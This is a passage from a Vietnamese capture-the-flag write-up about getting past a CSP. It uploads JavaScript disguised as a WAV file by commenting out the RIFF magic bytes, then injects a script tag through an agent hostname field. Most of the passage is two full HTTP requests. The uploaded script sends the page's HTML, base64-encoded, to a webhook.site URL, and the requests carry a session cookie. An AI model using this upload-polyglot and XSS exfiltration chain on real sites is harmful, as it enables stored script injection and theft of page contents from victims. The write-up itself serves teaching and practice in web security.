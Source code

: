Nhưng bypass xong thì làm gì nữa??

Nhớ lúc nãy ta bị vướng phải một cái CSP, vì `script-src 'self'` nên ta có thể chèn một tag script và trỏ `src` nó đến một file mà ta đã upload có nội dung là JavaScript, nhưng có một vấn đề là cái magic byte ta chèn khi nãy sẽ làm việc thực thi JS bị lỗi. Vấn đề này có thể được giải quyết bằng cách chèn `//` vào phía trước `RIFF????WAVE`, lý do là vì có vẻ như cái `multer` của nodejs nó chỉ check xem nếu tồn tại dãy bytes `RIFF????WAVE` trong nội dung là nó quy thành file audio luôn

Lợi dụng up một file JS
```http 
POST /agents/upload/cb972a14-4831-4df2-a6d6-bd9d133631d3/9ad24240-d969-4820-9f5e-454bab98019d HTTP/1.1
Host: 178.62.64.13:30716
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: multipart/form-data;boundary=---------------------------735323031399963166993862150
Cookie: connect.sid=s%3AyeBvXVfU9d7Zq3rvU43ZYk3sS0mrmD6M.BATGAIe1TKhjI331W8lSMBF7THhgyxP%2BLsnbiYdc4YM
Connection: close
Content-Length: 408

-----------------------------735323031399963166993862150
Content-Disposition: form-data; name="recording"; filename="hello.wav"
Content-Type: audio/wave

//RIFF????WAVE
fetch("https://webhook.site/db89e937-1f11-4143-98ea-6c818714b78e", {method: "POST", mode:"no-cors", body: btoa(encodeURI(document.documentElement.innerHTML))}).then(a => b)
-----------------------------735323031399963166993862150--
```

Update agent:

```http 
POST /agents/details/cb972a14-4831-4df2-a6d6-bd9d133631d3/9ad24240-d969-4820-9f5e-454bab98019d HTTP/1.1
Host: 178.62.64.13:30716
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3AyeBvXVfU9d7Zq3rvU43ZYk3sS0mrmD6M.BATGAIe1TKhjI331W8lSMBF7THhgyxP%2BLsnbiYdc4YM
Connection: close
Content-Length: 118

hostname=</td></tr></table><script+src="/uploads/06ad58b4-6f7d-4bf9-876e-440ea748f8a9"></script>&platform=hack&arch=aa
```
Ta nhận được request ở webhook
![](https://i.imgur.com/NSMGHuk.png)
